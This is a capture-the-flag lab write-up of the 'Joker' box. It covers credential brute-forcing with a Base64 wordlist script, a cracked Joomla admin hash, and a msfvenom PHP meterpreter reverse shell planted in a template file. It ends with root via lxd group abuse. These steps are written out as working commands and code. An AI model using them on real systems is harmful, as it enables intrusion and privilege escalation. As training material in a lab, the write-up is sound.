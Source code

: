 # enumerate
open port:
- 22 ssh
- 80 http
  - Apache/2.4.29
  - /index.html (Status: 200)
  - /phpinfo.php (Status: 200)
  - /secret.txt (Status: 200)
```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```
rock? rockyou.txt?
- 8080 need to authenticate

base on the conversation, we know that the user is `joker`. With burpsuit we intercept the post request and see how it is look like, not that there is a header call `Authorization: Basic am9rZXI6aGFubmFo` is a encoded `username:password` in base64. I then create a small scrip which create a wordlist for us.
```py
import base64
filne = '/usr/share/wordlists/rockyou.txt'
joker = open('joker.txt', 'w')
with open(filne, 'r+') as f:
    lines = f.readlines()
    for i in range(0, 10): # insert line to read
        auth = 'joker:'+lines[i]
        joker.write(base64.b64encode(auth)+'\n')
joker.close()
f.close()
```
now use burpsuit/hydra and try to crack the password, this can take really long time.(hint: encode what I show you above to get password).use the joker credential to login, note that the blog is using `joomla`. let use gobuster to file out more directory
```console
$ gobuster dir -U joker -P <pass> -u http://$IP:8080/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .http,.bak,.tar,.zip -t 54
```
- /administrator/ is a admin login page.. I try to login with joker credential... didnt work
- /backup: I got so happy when I see it.. juicy XD
Oh backup.zip is password protected. Luckly for us, the password to backup.zip is the joker's password. no need to use john to crack it. There are many interesting file here but we are looking for something that containt admin credentail so we can use it to log in to the admin page. 

Bingo there is a /db which contain joomladb.sql > sql database. let use grep to find juciy stuff.
```console
bibo318@parrot:~/THM/joker/backup-(1)/db$ grep user joomladb.sql 
INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com','<hash here>',0,1,'2019-10-08 12:00:15','2019-10-25 15:20:02','0','{\"admin_style\":\"\",\"admin_language\":\"\",\"language\":\"\",\"editor\":\"\",\"helpsite\":\"\",\"timezone\":\"\"}','0000-00-00 00:00:00',0,'','',0);
/*!40000 ALTER TABLE `cc1gr_users` ENABLE KEYS */;
```
BOOOM! we got admin credential. not that that password is hash using `bcrypt` (google "hashcat hash example" to define the hash). now use netcat to decryp the hash
```console
$ hashcat -m 3200 -a 0 -o crack.txt '$2y$<hashherhe>' /usr/share/wordlists/rockyou.txt --force
```
now let login to to admin page use the credential we got. So the plan is try to get reverse shell to get foothold to the server. after some diggin I found [this](https://www.hackingarticles.in/joomla-reverse-shell/). I will go for msfvenom and msfconsole way since we might need to upload stuff in the further attack and msfconsole make it easier.

start with create a meterpreter reverse shell using msfvenom
```
msfvenom -p php/meterpreter/reverse_tcp lhost=tun0 lport=1234 R
```
now back to joomla admin panel. go to *extensions* then *templates* -> *Beez3* -> and edit *error.php* with the payload that we generated with msfvenom. let go back to downloaded backup. note that you can find error.php at `/templates/beez3/error.php` so it should be the same way on the web page.

Run msfconsole
```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost tun0
set lport 1234
exploit
```
then go and visit `/templates/beez3/error.php` to execute our payload. Boom we got meterpreter shell.

Drop down to shell and run `which python/python3` to check if there are any python install, we need it to generate tty shell. Yes we have python3.
```console
python3 -c 'import pty; pty.spawn("/bin/sh")' # spawn tty shell
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```
NICE seem like are a member of lxd group. I know that we can gain root by abusing lxd privilage from [Tabby](../HackTheBox/tabby.md) check the link if you want to know in depth. In kali run:
```console
$ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine # download build-alpine
$ chmod 777 build-alpine
$ sudo ./build-alpine  # build it
```
now back to meterpreter. backgroup the current chanel and then upload alpine to the server.
```
meterpreter > upload script/lxd/myalpine.tar.gz
meterpreter > channel -i 0
$ lxc image import alpine-v3.12-x86_64-20200728_1308.tar.gz --alias kurohat
$ lxc init kurohat kurocontainer -c security.privileged=true
$ lxc config device add kurocontainer kurodevice disk source=/ path=/mnt/root recursive=true
$ lxc start kurocontainer
$ lxc exec kurocontainer /bin/sh
~ # whoami  
whoami
root
ls  /mnt/root/root/
final.txt
~ # cat /mnt/root/root/final.txt
cat /mnt/root/root/final.txt

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗ 
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
                                         
!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Aarti Singh: https://in.linkedin.com/in/aarti-singh-353698114

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
```
GGWP